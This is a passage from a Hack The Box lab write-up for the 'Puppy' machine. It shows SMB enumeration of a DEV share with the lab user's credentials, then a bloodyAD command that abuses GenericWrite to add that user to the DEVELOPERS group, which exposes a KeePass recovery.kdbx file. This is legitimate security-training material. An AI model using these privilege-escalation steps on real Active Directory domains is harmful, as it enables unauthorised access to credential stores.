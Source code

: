 <img src="assets/HTB/Puppy/image1.png" alt="Error loading">

Attempting to access the `DEV` share confirms that access is denied for `levi.james`:

```
smbclient //$IP/dev -U puppy.htb/levi.james%KingofAkron2025! 
```
```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ smbclient //$IP/dev -U puppy.htb/levi.james%KingofAkron2025! 

Try "help" to get a list of possible commands.
smb: \> l
NT_STATUS_ACCESS_DENIED listing \*
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
```

We have identified that the `DEVELOPERS` group is the object over which the `HR` group (and thus `levi.james`) has **GenericWrite** privileges. Using this permission, we add `levi.james` to the `DEVELOPERS` group:


```
bloodyAD --host $IP -d puppy.htb -u levi.james -p "KingofAkron2025!" add groupMember DEVELOPERS levi.james
```

After adding `levi.james` to the group, we attempt to access the `DEV` share again. This time, access is granted. Inside the share, we find a `.kdbx` file:

```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ smbclient //$IP/dev -U puppy.htb/levi.james%KingofAkron2025!                                                               

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun May 18 07:06:21 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025

                5080575 blocks of size 4096. 1541835 blocks available

```